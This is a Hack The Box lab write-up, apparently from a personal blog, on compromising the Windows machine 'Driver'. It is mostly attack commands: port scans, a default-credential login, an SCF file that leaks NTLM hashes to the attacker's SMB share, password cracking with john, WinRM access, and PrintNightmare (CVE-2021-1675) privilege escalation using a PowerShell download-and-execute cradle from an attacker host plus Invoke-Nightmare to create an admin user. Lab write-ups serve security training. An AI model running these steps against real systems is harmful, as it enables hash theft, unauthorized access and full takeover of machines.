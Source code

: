 ```yaml
---
layout: single
title: Driver - Hack The Box
excerpt: "Driver is an easy Windows machine that focuses on printer exploitation. Enumeration of the machine reveals that a web server is listening on port 80, along with SMB on port 445 and WinRM on port 5985. Navigation to the website reveals that it&amp;amp;amp;#039;s protected using basic HTTP authentication. While trying common credentials the `admin:admin` credential is accepted and we are able to visit the webpage. The webpage provides a feature to upload printer firmwares on an SMB share for a remote team to test and verify. Uploading a Shell Command File that contains a command to fetch a remote file from our local machine, leads to the NTLM hash of the user `tony` relayed back to us. Cracking the captured hash to retrieve a plaintext password we are able login as `tony`, using WinRM. Then, switching over to a meterpreter session it is discovered that the machine is vulnerable to a local privilege exploit that abuses a specific printer driver that is present on the remote machine. Using the exploit we can get a session as `NT AUTHORITY\SYSTEM`."
date: 2025-05-13
classes: wide
header:
  teaser: /img2/driver.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Windows
  - Easy
tags:
  - Password Guessing
  - SCF Malicious File
  - Print Spooler Local Privilege Escalation (PrintNightmare) [CVE-2021-1675]
---
```


## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.106
```

![](/img2/Pasted%20image%2020250513093712.png)

- Version and vulnerability scan

```bash
nmap -sCV -p135,445 -vvv 10.10.11.106
```

![](/img2/Pasted%20image%2020250513094009.png)

## Exploitation

- Default password

![](/img2/Pasted%20image%2020250513094105.png)

- Malicious scf file

```
[Shell]
Command=2
IconFile=\\10.10.16.2\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

![](/img2/Pasted%20image%2020250513102137.png)

```bash
impacket-smbserver smbFolder -smb $(pwd) -smb2support
```

![](/img2/Pasted%20image%2020250513102233.png)

```bash
john hash.txt -wordlist=/usr/share/wordlists/rockyou.txt
```

![](/img2/Pasted%20image%2020250513102407.png)

- Conect with EvilWinRM

```bash
evil-winrm -i 10.10.11.106 -u tony -p liltony
```

## Post-exploitation

- Run enumeration script WinPEAS

```bash
./winPEASx64.exe
```

![](/img2/Pasted%20image%2020250513130643.png)

- CVE-2021-1675 - PrintNightmare

```bash
wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/refs/heads/main/CVE-2021-1675.ps1
```

```bash
python3 -m http.server
```

```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.2:8000/exploit.ps1')
```

```powershell
Invoke-Nightmare -DriverName "Xerox" -NewUser "pyuser" -NewPassword "pyuser" 
```

![](/img2/Pasted%20image%2020250513133824.png)

```bash
evil-winrm -i 10.10.11.106 -u pyuser -p pyuser
```

![](/img2/Pasted%20image%2020250513134132.png)